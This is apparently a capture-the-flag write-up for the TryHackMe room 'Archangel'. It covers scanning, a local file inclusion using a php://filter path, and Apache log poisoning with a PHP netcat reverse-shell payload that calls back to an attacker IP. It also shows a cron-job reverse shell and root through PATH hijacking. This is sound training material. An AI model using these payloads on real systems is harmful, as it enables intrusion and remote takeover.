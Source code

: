 ```yaml
---
title: "Archangel - TryHackMe"
date: "2021-02-06"
categories: 
  - "tryhackme"
---
```


write-up for Tryhackme room [Archangel](https://tryhackme.com/room/archangel).

Difficulty Level - Easy

Start with nmap scan

```
nmap -A -oN initial $IP
```

![](/Images/archangel/Screenshot-2021-02-06-120349.png)

we will find hostname in website add it to "**/etc/hosts**" and enter hostname in browser and you will get different website.

![](/Images/archangel/Screenshot-2021-02-06-120816.png)

Run gobuster on that website.

![](/Images/archangel/Screenshot-2021-02-06-121034.png)

there is **robots.txt** file when we check the file notice some mentioned PHP file.

![](/Images/archangel/Screenshot-2021-02-06-121219.png)

there is button in that webpage when we click we notice it reading some file, it could read to LFI.

![](/Images/archangel/Screenshot-2021-02-06-121420.png)

we cant directly read PHP file so we need to convert it to base64 you can check [Cheat Sheet](https://highon.coffee/blog/lfi-cheat-sheet/) here.

```
php://filter/convert.base64-encode/var/www/html/development_testing/resource=<FILE>
```

after base64 decode we can view html view of the page.

![](/Images/archangel/Screenshot-2021-02-06-122849.png)

To read any files we need "**/var/www/html/development\_testing**" included in URL, as hint suggest to get shell we need to poision the apache logs. you can learn about it in tryhackme this room [LFI Basics](https://tryhackme.com/room/lfibasics).

read the log with this URL

```
http://mafialive.thm/test.php?view=php://filter//var/www/html/development_testing/resource=/var/log/apache2/access.log
```

then start the **burpsuit** and capture the session and poison and get shell.

add this command in "User-Agent" header to get shell

```
<?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4747 >/tmp/f') ?>
```

![](/Images/archangel/Screenshot-2021-02-06-123857-1024x188.png)

successful shell.

we logged in as www-data we need to switch to valid user, to do that enumerate more.

we can see crontab is running for user archangel which we can write, now add reverse shell file located in "**/opt**" wait till it run so we can shell as user archangel.

![](/Images/archangel/Screenshot-2021-02-06-124633.png)

![](/Images/archangel/Screenshot-2021-02-06-124744.png)

again run linpeas.sh or any usual enumeration method to find a privileged Escalation.

## Privileged Escalation

There is folder name "secret" and there is backup file with belong to root, when we run it we get error.

![](/Images/archangel/Screenshot-2021-02-06-125109.png)

if we able exploit the PATH with file name "**cp**" we can get to root.

![](/Images/archangel/Screenshot-2021-02-06-131222.png)

now need to HOME path to our current location.

```
export PATH=/home/archangel/secret/:$PATH
```

![](/Images/archangel/Screenshot-2021-02-06-131518.png)

Finally Root.

as usual Happy Hacking!!
